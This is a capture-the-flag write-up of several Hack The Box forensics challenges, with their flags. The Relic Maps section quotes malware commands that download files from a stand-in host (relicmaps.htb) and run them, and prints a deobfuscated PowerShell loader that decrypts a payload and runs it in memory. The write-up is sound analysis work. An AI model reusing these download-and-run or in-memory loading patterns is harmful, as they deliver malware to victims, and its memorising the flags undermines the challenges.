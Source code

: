 # Forensics Challenges

## Plaintext Tleasure

As the title says - the flag is in plain text in capture.pcap

> HTB{th3s3_4l13ns_st1ll_us3_HTTP}

## Alien Cradle

View cradle.ps1, `$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`

> HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

## Extraterrestrial Persistence

Yet another base64 string.

> HTB{th3s3_4l13nS_4r3_s00000_b4s1c}

## Packet Cyclone

Just run the recommended tool ([chainsaw](https://github.com/WithSecureLabs/chainsaw)) and answer questions based on its output.

## Relic Maps

Download relicmaps.one
I don't have OneNote installed so just ran `strings` on it and found this interesting piece (VBScript in HTML - I guess it was supposed to run when you view the file?):

```powershell
<#snip#>
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
<#snip#>
```

Download both files. Spent some time investigating topsecret-maps.one contents, extracted PNG with a map - but it turned out to be a red herring.
Next, concentrated on the obfuscated BAT file.
Obfuscation is pretty simple:
first, `set "eFlP=set "` ie `set` command becomes `eFlP`
then a long chain of `%eFlP%"ualBOGvshk=ws"` - `set SOMETHING=....` where `SOMETHING` is a random string and `....` is 4 characters.
Either use search & replace (manual, long process) or script it to deobfuscate the file.

This should produce the following result (some variables renamed for clarity):

```powershell
$Base64Str = "SEWD/RSJz4q <#snip#> ="

$BinaryStream = [System.Convert]::FromBase64String($Base64Str);
$AESDecryptor = New-Object System.Security.Cryptography.AesManaged;
$AESDecryptor.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$AESDecryptor.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$AESDecryptor.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$AESDecryptor.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');
$AESDecryptorObject = $AESDecryptor.CreateDecryptor();
$DecryptedBinaryStream = $AESDecryptorObject.TransformFinalBlock($BinaryStream, 0, $BinaryStream.Length);
$AESDecryptorObject.Dispose();
$AESDecryptor.Dispose();

$mNKMr = New-Object System.IO.MemoryStream(, $DecryptedBinaryStream);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$DecryptedBinaryStream = $bTMLk.ToArray();
$gDBNO = [System.ReflectionAssembly]::Load($DecryptedBinaryStream);
$PtfdQ = $gDBNO.EntryPoint;
$PtfdQ.Invoke($null, (, [string[]] ('%*')))%
```

Then I modified unobfuscated PowerShell script to dump decrypted buffer contents to a file instead of running it:

```powershell
<#snip#>
$DecryptedBinaryStream = $bTMLk.ToArray();
Set-Content -Path output.file -AsByteStream -Value $EncryptedBinaryStream
```

This produced a .NET dll which I did not bother to reverse engineer since the flag is there in plain text (in UTF-16 encoding):

> HTB{0neN0Te?_iT'5_4_tr4P!}
